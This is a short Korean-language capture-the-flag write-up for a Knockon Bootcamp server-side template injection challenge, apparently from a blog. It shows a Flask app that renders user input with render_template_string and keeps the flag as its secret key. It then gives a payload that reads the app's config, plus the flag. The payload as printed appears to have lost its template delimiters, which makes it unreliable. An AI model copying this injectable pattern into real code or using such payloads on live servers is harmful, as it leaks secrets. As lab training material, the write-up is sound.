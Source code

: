 ```yaml
---
title: "[Writeup] Knockon Bootcamp - 8.2 SSTI - secretkey"
categories:
  - Web Hacking
tags:
  - Writeup
  - Knockon Bootcamp
  - Server Side Template Injection
last_modified_at: 2024-09-15T14:30:00-05:00
published: true
---
```


|

## 문제

<http://war.knock-on.org:10004/>

![8.2 SSTI - secretkey 1](/assets/images/writeup/web-hacking/knock-on/8-2_SSTI_1.png)

![8.2 SSTI - secretkey 2](/assets/images/writeup/web-hacking/knock-on/8-1_SSTI_2.png)

![8.2 SSTI - secretkey 3](/assets/images/writeup/web-hacking/knock-on/8-1_SSTI_3.png)

|

|

|

### 목표

---

서버 내부 정보를 노출시켜 FLAG 찾기

|

### 공격 기법

---

Server Side Template Injection

|

|

|

## 문제 코드

```python
from flask import Flask, request, render_template_string, render_template
import os

app = Flask(__name__)
app.secret_key = os.getenv("FLAG")

@app.route("/")
def home():
    return render_template("index.html")

@app.route("/ssti", methods=["GET", "POST"])
def ssti():
    result = None
    if request.method == "POST":
        payload = request.form["payload"]
        result = render_template_string(f"{payload}")
    return render_template("ssti.html", result=result)

if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=10004)

```

|

|

|

## Explot

```html
config
```

![8.2 SSTI - secretkey 4](/assets/images/writeup/web-hacking/knock-on/8-2_SSTI_2.png)

|

|

|

## Payload

```html
config
```

### FLAG

---

```bash
KO{J1nj42_1s_n0t_s4f3~}
```

|

---